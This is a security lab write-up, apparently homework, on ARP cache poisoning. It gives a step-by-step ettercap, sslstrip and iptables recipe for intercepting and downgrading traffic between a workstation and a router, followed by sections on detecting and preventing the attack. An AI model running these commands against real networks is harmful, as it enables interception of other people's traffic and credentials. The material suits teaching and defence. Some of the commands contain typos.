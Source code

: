 # ARP Cache Poisoning  

## What is the ARP Protocol  

Address Resolution Protocol (ARP) is a protocol that enables network communications to reach a specific device on the network. ARP translates Internet Protocol (IP) addresses to a Media Access Control (MAC) address, and vice versa.

## What is ARP Poisoning  

An ARP spoofing, also known as ARP poisoning, is a Man in the Middle (MitM) attack that allows attackers to intercept communication between network devices. The attack works as follows:

1. The attacker must have access to the network. They scan the network to determine the IP addresses of at least two devices⁠—let’s say these are a workstation and a router.  
2. The attacker uses a spoofing tool, such as Arpspoof or Driftnet, to send out forged ARP responses.  
3. The forged responses advertise that the correct MAC address for both IP addresses, belonging to the router and workstation, is the attacker’s MAC address. This fools both router and workstation to connect to the attacker’s machine, instead of to each other.  
4. The two devices update their ARP cache entries and from that point onwards, communicate with the attacker instead of directly with each other.  
5. The attacker is now secretly in the middle of all communications.  

## Steps to reproduce  
### [Setup(In Romanian)](https://github.com/iulianPeiu6/Labs.SI/blob/main/Homework2/Setup.pdf)  

### Run the Attack

1. Install ettercap-common
```console
sudo apt install ettercap-common
```  

3. Edit /etc/ettercap/etter.conf and uncoment the two lines after the line starting with "# if you use iptables:":
```console
sudo nano /etc/ettercap/etter.conf
```  

3.  Install nmap:
```console
sudo apt-get install nmap
```  

4. Run command:
```console
nmap -sP 192.1.11/24
```  

4. Edit /proc/sys/net/ipv4/ip_forward to change the content from "0" to "1"(if it is necesary):
```console
sudo nano /proc/sys/net/ipv4/ip_forward
```  

5. Run command:
```console
sudo iptables -t nat -A PREROUTING -i et0 -p tcp --dport 80 -j REDIRECT --to-port 8080
```  

6.  Install sslstrip:
```console
sudo apt-get install sslstrip
``` 

7. Run command:
```console
sslstrip -a -f -l 8080
``` 

On another terminal:

8. Run command & activate remote_browser plugin:
```console
sudo ettercap -i eth0 -TqM ARP:REMOTE /192.168.1.11// /192.168.1.13
``` 

Now, the attacker is secretly in the middle of all communications  from C2 to Router

### Note:  

Some browsers or web applications have protection against this attack. To demonstrate the attack I have user [https://ubuntu.com/](https://ubuntu.com/). 

## Detections

A variety of commercial and open-source software exists to detect ARP cache poisoning, but you can easily check the ARP tables on your own computer without installing anything. On most Windows, Mac, and Linux systems, issuing the “arp -a” command from a terminal or command line will display the current IP-to-MAC address mappings of the machine.  

Tools like arpwatch and X-ARP are useful for continuous monitoring of the network and can alert an administrator if signs of an ARP Cache Poisoning Attack are seen. However, false positives are a concern and can create a large number of unwanted alerts.  

## Preventions 

### Static ARP Tables  

It’s possible to statically map all the MAC addresses in a network to their rightful IP addresses. This is highly effective in preventing ARP Poisoning attacks but adds a tremendous administrative burden. Any change to the network will require manual updates of the ARP tables across all hosts, making static ARP tables unfeasible for most larger organizations. Still, in situations where security is crucial, carving out a separate network segment where static ARP tables are used can help to protect critical information.

### Physical Security
Properly controlling physical access to your place of business can help mitigate ARP Poisoning attacks. ARP messages are not routed beyond the boundaries of the local network, so would-be attackers must be in physical proximity to the victim network or already have control of a machine on the network. Note that in the case of wireless networks, proximity doesn’t necessarily mean the attacker needs direct physical access; a signal extends to a street or parking lot may be sufficient. Whether wired or wireless, the use of technology like 802.1x can ensure that only trusted and/or managed devices can connect to the network. 

### Network Isolation 
As stated previously, ARP messages don’t travel beyond the local subnet. This means that a well-segmented network may be less susceptible to ARP cache poisoning overall, as an attack in one subnet cannot impact devices in another. Concentrating important resources in a dedicated network segment where enhanced security is present can greatly diminish the potential impact of an ARP Poisoning attack.  

### Encryption
While encryption won’t actually prevent an ARP attack from occurring, it can mitigate the potential damage. A popular use of MiTM attacks was to capture login credentials that were once commonly transmitted in plain text. With the widespread use of SSL/TLS encryption on the web, this type of attack has become more difficult. The threat actor can still intercept the traffic, but can’t do anything with it in its encrypted form.  
